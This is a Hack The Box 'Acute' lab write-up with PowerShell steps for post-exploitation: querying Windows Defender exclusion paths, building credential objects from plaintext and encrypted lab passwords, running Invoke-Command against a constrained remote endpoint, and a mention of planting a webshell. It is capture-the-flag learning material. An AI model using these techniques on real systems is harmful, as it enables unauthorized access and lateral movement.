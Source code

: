 TIL every write up used meterpreter. [zery](https://zery.cf/index.php/acute/), [Ippsec](https://www.youtube.com/watch?v=jDYte7xNY1g) [caueb](https://caueb.github.io/writeups/htb/boxes/acute/) uses meterpreter, but this command from the caueb is awesome! I am going go with this is a gimmick of the box.
```powershell
# Show directories that are whitelisted
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
```

![](feelsweirdman.png)
Never used meterpreter screenshare.

![](badedavies.png)
The key important detail here is not there! I missed the `-ConfigurationName dc_manage`

`acute\imonks`
`W3_4R3_th3_f0rce.`

```powershell
$pass = convertto-securestring -asplaintext -force -string "W3_4R3_th3_f0rce."
# -arguementlist did not work for me
$cred = new-object -typename system.management.automation.pscredential("acute\imonks",$pass)
# Sometimes you need to use invoke command
invoke-command -computername ATSSERVER -ScriptBlock { <insertcommands> } -ConfigurationName dc_manage -Credential $cred
```
The Invoke-Command cmdlet **runs commands on a local or remote computer and returns all output from the commands, including errors**. Using a single Invoke-Command command, you can run commands on multiple computers. To run a single command on a remote computer, use the ComputerName parameter.


The struggle for me came from my screenshotting. Here is the import detail
![](configname.png)
Fortunately, honestly and thankfully the logs are here to remind me of the OOF. 
![](honestyisgood.png)
Bit testing and playing around. Learnt that a better approach would be to start check what commands you run first. `get-command`
![](imonkaswhoami.png)

Tried spawning a shell in memory via the command above, which failed. 
![](lstheusers.png)
The script on the desktop
![](jmorgancreds.png)

Before I continue on with the video, I want to try a echo a webshell into the webshell of the wwwroot of inetpub, but icacls would have told me no permissions. 
```powershell
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```
